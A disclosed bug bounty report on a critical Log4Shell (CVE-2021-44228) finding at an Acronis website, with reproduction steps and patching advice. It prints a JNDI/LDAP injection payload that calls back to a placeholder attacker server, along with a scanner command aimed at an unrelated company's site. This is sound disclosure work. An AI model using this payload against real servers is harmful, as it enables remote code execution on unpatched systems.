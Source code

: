 # [CVE-2021-44228] nps.acronis.com is vulnerable to the recent log4shell 0-day

## Report Details
- **Report ID**: 1425474
- **URL**: https://hackerone.com/reports/1425474
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-13T23:42:16.454Z
- **Disclosed**: 2022-07-13T00:26:11.739Z

## Reporter
- **Username**: rhinestonecowboy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
The website at nps.acronis.com is vulnerable to CVE-2021-44228

## Steps To Reproduce
I used this [script](https://github.com/fullhunt/log4j-scan) to find this. It spins up an interact-sh server to receive the callback and send the payload in the query string and about 30 diffent headers. You can reproduce manually with curl and interact-sh/burp collaborator/a server you control. However, since the callback is proof of the vulnerability, the script makes it easier to identify. Let me know if you want me to tell you which specific header fires the payload and I will test them.

  1. Construct the payload: `${jdni:ldap://nps.acronis.com.<your-server>/test}`
  1. Inject the payload in the Request Headers (User Agent, X-Forwarded-For etc) or use the script from fullscan: `python3 log4j-scan.py -u 'https://marketingportal.engelvoelkers.com'`
  1. Observe the callback, proving the deserialization of untrusted data which leads to rce

{F1544482}
 
## Recommendations
Update log4j to the latest [version](https://logging.apache.org/log4j/2.x/download.html)
If updating to the latest version is not possible the vulnerability can be mitigated by removing the JndiLookup class from the class path. Additionally, the issue can be mitigated on Log4j versions >=2.10 by setting the system property log4j2.formatMsgNoLookups or the LOG4J_FORMAT_MSG_NO_LOOKUPS environment variable to true.

## Impact

Remote Code Execution (rce)

## Attachments
- 2021-12-14-013717_1366x768_scrot.png
